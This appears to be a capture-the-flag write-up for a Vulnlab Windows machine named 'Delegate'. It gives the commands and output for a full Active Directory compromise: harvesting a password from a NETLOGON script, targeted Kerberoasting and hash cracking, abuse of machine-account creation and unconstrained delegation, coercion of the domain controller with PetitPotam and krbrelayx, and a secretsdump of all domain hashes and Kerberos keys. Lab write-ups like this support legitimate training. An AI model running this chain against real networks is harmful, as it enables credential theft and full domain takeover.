


# Entry

10.10.85.108

    ➜  delegate nxc smb 10.10.85.108
    SMB         10.10.85.108    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)


as we have access on shares lets check out which files we have in



and yeah we got it


we have users.bat in NETLOGON lets dump it

```
➜  delegate cat users.bat 
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator P<redacted>123
```

and yeah we got here password

A.Briggs : P<redaccted>123

```
➜  delegate nxc smb DC1 -u 'A.Briggs' -p 'P4ssw0rd1#123'   
SMB         10.10.85.108    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
SMB         10.10.85.108    445    DC1              [+] delegate.vl\A.Briggs:P4ssw0rd1#123 
```
and yeah its works so lets check ldap

its work and yeah

```
➜  delegate nxc ldap DC1 -u 'A.Briggs' -p 'P4ssw0rd1#123'
SMB         10.10.85.108    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
LDAP        10.10.85.108    389    DC1              [+] delegate.vl\A.Briggs:P4ssw0rd1#123 
```

now we can dump BH data

```
➜  delegate nxc ldap DC1.delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123' --bloodhound --dns-server 10.10.85.108 --collection All
SMB         10.10.85.108    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
LDAP        10.10.85.108    389    DC1              [+] delegate.vl\A.Briggs:P4ssw0rd1#123 
LDAP        10.10.85.108    389    DC1              Resolved collection methods: container, localadmin, rdp, dcom, session, acl, trusts, objectprops, group, psremote
LDAP        10.10.85.108    389    DC1              Done in 00M 13S
LDAP        10.10.85.108    389    DC1              Compressing output into /root/.nxc/logs/DC1_10.10.85.108_2025-03-06_074544_bloodhound.zip
➜  delegate 
```

for full users list

```
➜  bloodhound cat DC1_10.10.85.108_2025-03-06_074544_users.json | jq -r '.data[].Properties.samaccountname' 
null
N.Thompson
b.Brown
J.Roberts
R.Cooper
krbtgt
Administrator
A.Briggs
Guest
```

## GenericWrite


](<../assets/images/Screenshot 2025-03-06 at 07-50-01 BloodHound.png>)

[pywhisker](https://github.com/ShutdownRepo/pywhisker)

[targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)


    ➜  targetedKerberoast git:(main) python3 targetedKerberoast.py -u 'A.Briggs' -p 'P4ssw0rd1#123' --request-user N.Thompson -d 'delegate.vl'


```
➜  delegate john N.Thompson_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
K<redacted>41       (?)
```
and lets see

    ➜  delegate nxc smb DC1 -u 'N.Thompson' -p 'K<redacted>41'
    SMB         10.10.85.108    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
    SMB         10.10.85.108    445    DC1              [+] delegate.vl\N.Thompson:KALEB_2341 

## SeEnableDelegationPrivilege


    ➜  delegate nxc winrm DC1 -u 'N.Thompson' -p 'K<redacted>41'
    WINRM       10.10.85.108    5985   DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
    /usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
    arc4 = algorithms.ARC4(self._key)
    WINRM       10.10.85.108    5985   DC1              [+] delegate.vl\N.Thompson:K<redacted>41 (Pwn3d!)

its about it 

lets see we can add computer i think its about it

    ➜  delegate nxc ldap DC1 -u 'N.Thompson' -p ':K<redacted>41' -M maq
    SMB         10.10.85.108    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
    LDAP        10.10.85.108    389    DC1              [+] delegate.vl\N.Thompson:KALEB_2341 
    MAQ         10.10.85.108    389    DC1              [*] Getting the MachineAccountQuota
    MAQ         10.10.85.108    389    DC1              MachineAccountQuota: 10
    ➜  delegate 

and yes i added

    ➜  delegate python3 /opt/impacket/examples/addcomputer.py -computer-name 'irem$' -computer-pass Password321! -dc-ip 10.10.85.108 'delegate.vl/N.Thompson:KALEB_2341'     
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Successfully added machine account irem$ with password Password321!.

lets add DNS record macchine which we create as we did at [Incercept](https://lineeralgebra.github.io/posts/Vulnlab-Intercept/)

    ➜  krbrelayx git:(master) python3 dnstool.py -u 'delegate.vl\irem$' -p 'Password321!' -r irem.delegate.vl -d 10.8.2.152 --action add DC1.delegate.vl -dns-ip 10.10.85.108
    [-] Connecting to host...
    [-] Binding to host
    [+] Bind OK
    [-] Adding new record
    [+] LDAP operation completed successfully
if we wanan do Constrained Delegation we have to add UAC. we can do with bloodyAD

    ➜  delegate bloodyAD -u 'N.Thompson' -p 'KALEB_2341' -d delegate.vl  --host 'DC1.delegate.vl' add uac 'irem$'  -f TRUSTED_FOR_DELEGATION
    [-] ['TRUSTED_FOR_DELEGATION'] property flags added to irem$'s userAccountControl

and booom!!!

    ➜  krbrelayx git:(master) python3 addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/irem.delegate.vl' -t 'irem$' -dc-ip 10.10.85.108 DC1.delegate.vl            
    [-] Connecting to host...
    [-] Binding to host
    [+] Bind OK
    [+] Found modification target
    [+] SPN Modified successfully
    ➜  krbrelayx git:(master) python3 addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -q -t 'irem$' -dc-ip 10.10.85.108 DC1.delegate.vl 
    [-] Connecting to host...
    [-] Binding to host
    [+] Bind OK
    [+] Found modification target
    DN: CN=irem,CN=Computers,DC=delegate,DC=vl - STATUS: Read - READ TIME: 2025-03-06T08:23:51.506280
        msDS-AdditionalDnsHostName: irem.delegate.vl
        sAMAccountName: irem$
        servicePrincipalName: cifs/irem.delegate.vl

    ➜  krbrelayx git:(master) 


Lets create our NTLM hash first of all for our machine account


    ➜  krbrelayx git:(master) python3 krbrelayx.py -hashes :13B1E64400203ECF38B1FDEA2B11A09F
    [*] Protocol Client SMB loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Running in export mode (all tickets will be saved to disk). Works with unconstrained delegation attack only.
    [*] Running in unconstrained delegation abuse mode using the specified credentials.
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80

    [*] Setting up DNS Server
    [*] Servers started, waiting for connections

and run [Petitpotam](https://github.com/topotam/PetitPotam)

    ➜  PetitPotam git:(main) python3 PetitPotam.py -u 'irem$' -p 'Password321!' irem.delegate.vl 10.10.85.108
    /home/elliot/Documents/Vulnlab/Machines/Windows/delegate/PetitPotam/PetitPotam.py:20: SyntaxWarning: invalid escape sequence '\ '
    show_banner = '''

                                                                                                
                ___            _        _      _        ___            _                     
                | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
                |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
                _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
            _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
            "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                            
                PoC to elicit machine account authentication via some MS-EFSRPC functions
                                        by topotam (@topotam77)
        
                        Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN


    Trying pipe lsarpc
    [-] Connecting to ncacn_np:10.10.85.108[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!

and we got it




    ➜  krbrelayx git:(master) ✗ export KRB5CCNAME=DC1\$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache 
    ➜  krbrelayx git:(master) ✗ klist
    Ticket cache: FILE:DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
    Default principal: DC1$@DELEGATE.VL

    Valid starting       Expires              Service principal
    03/06/2025 08:28:07  03/06/2025 17:36:03  krbtgt/DELEGATE.VL@DELEGATE.VL
            renew until 03/13/2025 08:36:03

secretsdump

    ➜  krbrelayx git:(master) ✗ python3 /opt/impacket/examples/secretsdump.py -k DC1.delegate.vl
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:c32198ceab4cc695e65045562aa3ee93:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:54999c1daa89d35fbd2e36d01c4a2cf2:::
    A.Briggs:1104:aad3b435b51404eeaad3b435b51404ee:8e5a0462f96bc85faf20378e243bc4a3:::
    b.Brown:1105:aad3b435b51404eeaad3b435b51404ee:deba71222554122c3634496a0af085a6:::
    R.Cooper:1106:aad3b435b51404eeaad3b435b51404ee:17d5f7ab7fc61d80d1b9d156f815add1:::
    J.Roberts:1107:aad3b435b51404eeaad3b435b51404ee:4ff255c7ff10d86b5b34b47adc62114f:::
    N.Thompson:1108:aad3b435b51404eeaad3b435b51404ee:4b514595c7ad3e2f7bb70e7e61ec1afe:::
    DC1$:1000:aad3b435b51404eeaad3b435b51404ee:3acc26f4a9362373ef31a7bd749beb49:::
    irem$:3101:aad3b435b51404eeaad3b435b51404ee:13b1e64400203ecf38b1fdea2b11a09f:::
    [*] Kerberos keys grabbed
    Administrator:aes256-cts-hmac-sha1-96:f877adcb278c4e178c430440573528db38631785a0afe9281d0dbdd10774848c
    Administrator:aes128-cts-hmac-sha1-96:3a25aca9a80dfe5f03cd03ea2dcccafe
    Administrator:des-cbc-md5:ce257f16ec25e59e
    krbtgt:aes256-cts-hmac-sha1-96:8c4fc32299f7a468f8b359f30ecc2b9df5e55b62bec3c4dcf53db2c47d7a8e93
    krbtgt:aes128-cts-hmac-sha1-96:c2267dd0a5ddfee9ea02da78fed7ce70
    krbtgt:des-cbc-md5:ef491c5b736bd04c
    A.Briggs:aes256-cts-hmac-sha1-96:7692e29d289867634fe2c017c6f0a4853c2f7a103742ee6f3b324ef09f2ba1a1
    A.Briggs:aes128-cts-hmac-sha1-96:bb0b1ab63210e285d836a29468a14b16
    A.Briggs:des-cbc-md5:38da2a92611631d9
    b.Brown:aes256-cts-hmac-sha1-96:446117624e527277f0935310dfa3031e8980abf20cddd4a1231ebf03e64fee8d
    b.Brown:aes128-cts-hmac-sha1-96:13d1517adfa91fbd3069ed2dff04a41b
    b.Brown:des-cbc-md5:ce407ac8d95ee6f2
    R.Cooper:aes256-cts-hmac-sha1-96:786bef43f024e846c06ed7870f752ad4f7c23e9fdc21f544048916a621dbceef
    R.Cooper:aes128-cts-hmac-sha1-96:8c6da3c96665937b96c7db2fe254e837
    R.Cooper:des-cbc-md5:a70e158c75ba4fc1
    J.Roberts:aes256-cts-hmac-sha1-96:aac061da82ae9eb2ca5ca5c4dd37b9af948267b1ce816553cbe56de60d2fa32c
    J.Roberts:aes128-cts-hmac-sha1-96:fa3ef45e30cf44180b29def0305baeb6
    J.Roberts:des-cbc-md5:6858c8d3456451f4
    N.Thompson:aes256-cts-hmac-sha1-96:7555e50192c2876247585b1c3d06ba5563026c5f0d4ade2b716741b22714b598
    N.Thompson:aes128-cts-hmac-sha1-96:7ad8c208f8ff8ee9f806c657afe81ea2
    N.Thompson:des-cbc-md5:7cab43c191a7ecf2
    DC1$:aes256-cts-hmac-sha1-96:92f69e70376f3bfc32c7079b290f23f98b82ddb4a6b22f76647c10cdf05d444b
    DC1$:aes128-cts-hmac-sha1-96:ba82fc33e8ee635ffa29567b84db32fd
    DC1$:des-cbc-md5:678cfd29f86e7c1c
    irem$:aes256-cts-hmac-sha1-96:f8683307ef872e7ee63add1f3bbeac3010df98c761978588bd67448e31238883
    irem$:aes128-cts-hmac-sha1-96:2d6931c2762e87e7cc30ce8ca210677e
    irem$:des-cbc-md5:a71686a1c4df8f4a

